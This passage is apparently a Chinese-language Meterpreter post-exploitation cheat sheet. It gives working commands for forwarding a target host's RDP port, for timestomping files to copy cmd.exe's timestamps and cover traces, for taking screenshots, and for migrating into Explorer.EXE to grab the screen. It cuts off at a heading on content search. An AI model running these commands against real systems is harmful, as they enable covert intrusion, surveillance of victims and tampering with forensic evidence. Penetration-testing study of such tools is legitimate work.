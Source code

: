 ```
meterpreter > portfwd add –l 3389 –p 3389 –r  [target host]
meterpreter > portfwd delete –l 3389 –p 3389 –r [target host]
meterpreter > portfwd list
meterpreter > portfwd flush
```
3389是Windows远程桌面默认端口

Example：
https://www.offensive-security.com/metasploit-unleashed/portfwd/

### TIMESTOMP ❖

访问文件系统很危险，因为你会留下许多的足迹（footprints），对这些足迹的追查称为电子隐写。
Meterpreter将其载入目标的内存中而不写入硬盘，极大程度减少了足迹的残留，但如果真的需要对文件系统进行操作，可以使用`timestomp`工具：

```shell
meterpreter > use priv
meterpreter > timestomp -h
meterpreter > timestomp test.txt -v
meterpreter > timestomp test.txt -f C:\\WINNT\\system32\\cmd.exe
# 将文件的MAC设置为cmd.exe的MAC
meterpreter > timestomp test.txt -v

Modified      : Tue Dec 07 08:00:00 -0500 1999
Accessed      : Sun May 03 05:14:51 -0400 2009
Created       : Tue Dec 07 08:00:00 -0500 1999
Entry Modified: Sun May 03 05:11:16 -0400 2009
```

### 截屏 ❖

```
meterpreter > screenshot
```

```
meterpreter > ps

Process list
============

    PID   Name                 Path
    ---   ----                 ----
    180   notepad.exe          C:\WINDOWS\system32\notepad.exe
    248   snmp.exe             C:\WINDOWS\System32\snmp.exe
    260   Explorer.EXE         C:\WINDOWS\Explorer.EXE
...

meterpreter > migrate 260
meterpreter > use espia
meterpreter > screengrab
```

### 内容搜索 ❖/🐧
